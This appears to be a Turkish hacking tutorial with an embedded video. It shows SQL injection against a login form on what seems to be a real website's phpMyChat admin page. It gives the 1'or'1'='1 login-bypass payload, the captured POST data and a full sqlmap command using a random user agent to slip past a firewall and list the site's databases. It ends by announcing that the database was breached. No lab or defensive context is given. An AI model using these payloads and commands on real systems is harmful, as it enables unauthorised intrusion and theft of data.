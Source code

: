 <iframe width="560" height="315" src="https://www.youtube.com/embed/oT6gYdYFzjA?rel=0" frameborder="0" allowfullscreen></iframe>

Genel de en bilindik sql injection id=1' olur fakat az bilinen çok uygulanan

bir atak daha vardır login kısımlarına uyguladığımız 1'or'1'='1 login bypass

teknikleri vardır aynı açıktan yola çıkarak veritabanına erişmek mümkündür

şöyle ki ;


Şöyle bir login şifre ve kullanıcı adına ' tırnak koyalım ve test edelim


Testimiz başarılı hata mesajı verdirebildik.



Şimdi Mozilla Firefox tarayıcımıza Live HTTP Headers eklentisini yükleyelim

post edilen datayı daha sağlıklı görüp almak için yükledikten sonra

Araçlar kısmından eklentiyi seçelim


 


şimdi Capture seçeneği seçili iken rastgele kullanıcı adı şifre girelim

seçili kısımdaki gibi data çıkacak;

 


    "L=spanish&amp;Link=&amp;LIMIT=&amp;pmc_username=k4y4&amp;pmc_password=k4y4&amp;login_form=Ingresar"

şimdi SQLmap uygulamasını çalıştıralım ve komutumuzu girelim siz komutu girin ben o sırada parametreleri anlatayım; 


    sqlmap -u "http://www.sistemleg.com/phpmychat/admin.php" --data="L=spanish&amp;Link=&amp;LIMIT=&amp;pmc_username=k4y4&amp;pmc_password=k4y4&amp;login_form=Ingresar" -p "pmc_username" --batch --random-agent --dbs 


-u (açığın bulunduğu adres)

--data (açığın post ettiği data live http headers ile aldık)

-p (data için de açığın bulunduğu input name i)

--batch (hızlı bi sonuç için programın seçeneklerini seçer)

--random-agent (güvenlik duvarı aşmak için user agent kullanımı)

--dbs (database's veritabanlarının adını yazdırmak)

Veritabanına sızma işlemi başarı ile gerçekleşti


